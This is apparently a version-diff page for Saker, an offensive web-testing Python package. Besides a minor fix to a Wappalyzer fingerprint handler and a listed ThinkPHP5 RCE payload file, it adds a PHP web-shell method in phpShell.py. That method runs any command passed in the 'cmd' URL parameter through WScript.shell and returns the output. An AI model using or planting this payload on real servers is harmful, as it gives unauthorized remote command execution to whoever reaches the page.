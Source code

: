 ### Comparing `Saker-1.0.8/saker/handler/wappalyzer.py` & `Saker-1.0.9/saker/handler/wappalyzer.py`

 * *Files 1% similar despite different names*

```diff
@@ -146,15 +146,15 @@
     def _get_implied_apps(self, detected_apps):
         """
         Get the set of apps implied by `detected_apps`.
         """
         def __get_implied_apps(apps):
             _implied_apps = set()
             for app in apps:
-                if 'implies' in self.apps[app]:
+                if 'implies' in self.apps.get(app, ""):
                     _implied_apps.update(set(self.apps[app]['implies']))
             return _implied_apps
 
         implied_apps = __get_implied_apps(detected_apps)
         all_implied_apps = set()
 
         # Descend recursively until we've found all implied apps
```

### Comparing `Saker-1.0.8/saker/payloads/misc/thinkphp5_rce.py` & `Saker-1.0.9/saker/payloads/misc/thinkphp5_rce.py`

 * *Files identical despite different names*

### Comparing `Saker-1.0.8/saker/payloads/misc.py` & `Saker-1.0.9/saker/payloads/misc.py`

 * *Files identical despite different names*

### Comparing `Saker-1.0.8/saker/payloads/phpShell.py` & `Saker-1.0.9/saker/payloads/phpShell.py`

 * *Files 6% similar despite different names*

```diff
@@ -144,7 +144,19 @@
 $o = unserialize($s);
 gc_collect_cycles();
 $f1 = "aaaa";
 $f2 = "bbbb";
 var_dump($o);
 """
         self.shell(code)
+
+    def win_system(self):
+        code = """
+$command=$_GET['cmd'];
+$wsh = new COM('WScript.shell');
+$exec = $wsh->exec("cmd /c ".$command);
+$stdout = $exec->StdOut();
+$stroutput = $stdout->ReadAll();
+// if needed
+$stroutput = iconv("GBK", "UTF-8", $stroutput); 
+echo $stroutput;"""
+        self.shell(code)
```
